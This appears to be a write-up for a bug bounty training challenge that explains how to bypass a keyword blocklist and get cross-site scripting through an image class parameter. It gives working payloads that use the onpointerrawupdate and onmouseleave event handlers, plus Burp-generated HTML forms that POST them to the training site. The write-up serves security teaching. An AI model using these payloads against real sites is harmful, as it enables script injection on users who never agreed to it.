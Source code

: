 ## Change the class of our image and pick your favourite!

Our basic HTML web application will allow you to easily change the style via class change. View various styles of images and decide which you think is best!

Once you're done playing, can you find any XSS? The developer's have made sure no malicious class names can be used.

## Solution 

Lots of developers rely on out-dated blocklists, or they simply only filter malicious event handlers such as onclick and onerror.

The mistake the developer made with this challenge is they were filtering for specific keywords! This is a bad approach to protecting against XSS.

Chrome POC

The challenge filter can be bypassed by sending imageClass=img1"onpointerrawupdate='alert(0)'"> as the POSTDATA, and then move your mouse over the image for the XSS to execute.

Working POC on Chrome:

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form target="_blank" action="https://www.bugbountytraining.com/challenges/challenge-2.php" method="POST">
      <input type="hidden" name="imageClass" value="img1&quot;onpointerrawupdate&#61;&apos;alert&#40;0&#41;&apos;&quot;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
Firefox POC

onpointerrawupdate= only executes on Chrome, so what about Firefox? Well since the filter blocklist doesn't include everything (and this is why it's a bad approach), onmouseleave= will work on both firefox and chrome

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form target="_blank" action="https://www.bugbountytraining.com/challenges/challenge-2.php" method="POST">
      <input type="hidden" name="imageClass" value="img1&quot;onmouseleave&#61;&apos;alert&#40;0&#41;&apos;&quot;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>